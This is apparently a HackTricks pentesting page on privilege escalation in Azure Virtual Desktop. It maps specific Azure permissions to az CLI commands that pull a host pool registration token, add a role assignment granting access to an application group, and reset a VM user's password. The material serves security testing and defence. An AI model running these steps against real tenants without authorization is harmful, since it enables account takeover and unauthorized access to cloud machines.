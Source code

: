 # Az - Virtual Desktop Privesx

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
You can retrieve the registration token used to register virtual machines within an host pool.

```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```

### ("Microsoft.Authorization/roleAssignments/read", "Microsoft.Authorization/roleAssignments/write") && ("Microsoft.Compute/virtualMachines/read","Microsoft.Compute/virtualMachines/write","Microsoft.Compute/virtualMachines/extensions/read","Microsoft.Compute/virtualMachines/extensions/write")

With this permissions you can add a user assignment to the Application group, which is needed to access the virtual machine of the virtual desktop.
```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
  --body '{
    "properties": {
      "roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
      "principalId": "<USER_OBJECT_ID>"
    }
  }'
```

Additionally you can change the virtual machine user and password to access it
```bash
az vm user update \
  --resource-group <RESOURCE_GROUP_NAME> \
  --name <VM_NAME> \
  --username <USERNAME> \
  --password <NEW_PASSWORD>
```

{{#include ../../../banners/hacktricks-training.md}}

